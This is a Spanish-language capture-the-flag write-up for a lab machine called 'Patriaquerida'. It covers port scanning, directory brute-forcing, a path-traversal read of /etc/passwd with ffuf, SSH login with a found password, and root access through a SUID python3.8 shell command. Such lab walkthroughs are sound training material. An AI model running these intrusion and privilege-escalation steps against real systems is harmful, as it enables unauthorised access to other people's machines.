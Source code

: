 ```yaml
---
description: '✍️ Autor: JuanR🔍 Dificultad: Fácil 📅 Fecha de creación: 12/01/2025'
---
```


# Patriaquerida

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/imagen (1) (1).png" alt=""><figcaption></figcaption></figure>

En el puerto 80 corre la página por defecto de Apache por lo que realizamos un escaneo de directorios.

<figure><img src="../../.gitbook/assets/imagen (2) (1).png" alt=""><figcaption></figcaption></figure>

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/imagen (5) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que se encuentra un archivo llamado **index.php**, así que procederemos a explorar el contenido de esa ruta.

<figure><img src="../../.gitbook/assets/imagen (3) (1).png" alt=""><figcaption></figcaption></figure>

Nos indican directamente dónde buscar, así que accedemos a la ruta: **172.17.0.2/.hidden\_pass**.

<figure><img src="../../.gitbook/assets/imagen (4) (1).png" alt=""><figcaption></figcaption></figure>

Encontramos lo que parece ser una contraseña: **balu**.

### 🚀 **EXPLOTACIÓN**

Dado que existen rutas visibles, utilizaremos **FFUZ** para explorar más a fondo. Tal como se muestra en la imagen, el servidor es vulnerable a **Path Traversal**, lo que nos permite acceder al archivo **/etc/passwd**.

```bash
ffuf -u "http://172.17.0.2/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt -fw 12
```

<figure><img src="../../.gitbook/assets/imagen (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Con la contraseña **balu** nos podemos loguear con el usuario **pinguino**.

```bash
ssh pinguino@172.17.0.2
```

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Indagando encontramos la contraseña del usuario **mario** por lo que pivotamos a él.

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Al buscar permisos **SUID** encontramos que tenemos con **python3.8**.

```
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}

```bash
/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>
